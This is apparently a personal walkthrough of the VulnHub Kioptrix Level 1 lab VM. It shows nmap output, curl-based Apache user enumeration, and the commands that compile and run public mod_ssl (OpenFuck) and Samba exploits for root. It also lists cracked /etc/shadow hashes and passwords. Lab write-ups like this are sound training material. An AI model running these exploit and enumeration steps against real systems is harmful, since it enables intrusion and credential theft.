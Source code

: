# Kioptrix 1

https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

## Discovery

### Port scan

```
nmap -T5 -A -p1-65535 -oG nmap_grepable.txt -oN nmap_normal.txt 192.168.122.238
```

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1          32768/tcp  status
|_  100024  1          32768/udp  status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2018-04-12T03:09:55+00:00; +3h59m59s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)

Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)


Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 0s, median: 3h59m58s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Services

### OpenSSH 2.9p2

### Apache 1.3.20

Apache 1.3.*-2.0.48 remote users disclosure exploit by m00 Security.
exploits/linux/remote/132.c

It is possible to enumerate users due to the difference in response
codes from a head request to `/~username`. A valid user will return a
403, an invalid user will return a 404.


```
curl -v -X HEAD http://192.168.122.238/~root
curl -v -X HEAD http://192.168.122.238/~asdfasdf
```

#### mod_ssl/2.8.4

This is vulnerable to `exploits/unix/remote/764.c` - 'OpenFuckV2.c'
Remote Buffer Overflow

See this page for updating OpenFuck Exploit ~
http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/

After using the above fix and I could run this command to get a root shell.

`gcc -o openfuck 764.c -lcrypto ; ./openfuck 0x6b 192.168.122.238 443 -c 40`

### Sambda 2.2.1a

Recent versions of smbclient don't report the version string for SMB
connections. Instead I had to use ngrep to find the server
identification from the SMB network traffic.

`sudo ngrep SMB`

That revealed the version to be 2.2.1a. I was then able to find an
exploit for that version of Samba and exploit it to get root.

`gcc -o e 10.c && ./e -b 0 192.168.122.238`

# Post Exploitation

## World writable file

Basically, all of them. There are 2491 world writable file.
See `world_writable_files` for the full list.

## Crack /etc/shadow

There are three hashes of interest:
```
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
```

### User: Harold

Password: 'WebMaster'
Has no mail.
Is not a sudoer.

### User: John
Password: 'TwoCows2'
Has no mail
has no interesting bash history

### User: root
Password: ????
Intresting mail:

```
From root  Sat Sep 26 11:42:10 2009
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```

Has an anaconda
rootpw --iscrypted $1$�.U�5��A$70lHKl6Bm7ZMEaEDikMjD.
